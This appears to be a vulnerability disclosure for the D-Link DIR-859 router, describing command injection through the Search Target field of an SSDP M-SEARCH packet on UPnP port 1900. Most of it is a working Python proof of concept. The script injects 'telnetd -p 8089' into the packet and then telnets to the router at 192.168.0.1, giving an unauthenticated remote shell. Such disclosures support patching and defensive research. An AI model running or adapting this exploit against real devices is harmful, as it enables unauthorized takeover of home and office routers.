# dir-859
Exploit Author: yangchunyuwhu@aliyun.com

Vendor: D-Link

Firmware: DIR-859_REVA_FIRMWARE_PATCH_1.06B01.zip

An issue was discovered on D-Link DIR-859 devices. Universal Plug and Play (UPnP) is enabled by default on port 1900. allowing an attacker to inject arbitrary command to the UPnP via a crafted M-SEARCH packet.An attacker can perform command injection by injecting a payload into the "Search Target" (ST) field of an SSDP M-SEARCH discovery packet.

#poc
from socket import *
from os import *
from time import *
 
payload = b'M-SEARCH * HTTP/1.1\r\n'
payload += b'HOST:localhost:1900\r\n'
payload += b'ST:urn:device:;telnetd -p 8089\r\n\r\n'
 
s = socket(AF_INET, SOCK_DGRAM, 0)
s.sendto(payload, ("192.168.0.1", 1900))
s.close()
 
sleep(1)
system("telnet 192.168.0.1 8089")
